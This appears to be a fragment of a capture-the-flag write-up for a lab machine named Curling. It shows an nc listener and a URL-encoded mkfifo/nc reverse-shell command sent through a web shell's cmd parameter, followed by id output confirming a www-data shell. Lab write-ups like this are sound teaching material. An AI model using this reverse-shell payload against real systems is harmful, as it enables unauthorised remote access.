 ![templates](curling6.png)

testing malicous code

![mal index](curling7.png)

opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

executing a reverse shell command
```
http://10.10.10.150/index.php?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2%3E%261|nc+<ip>+9001+%3E/tmp/f
```

```
$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
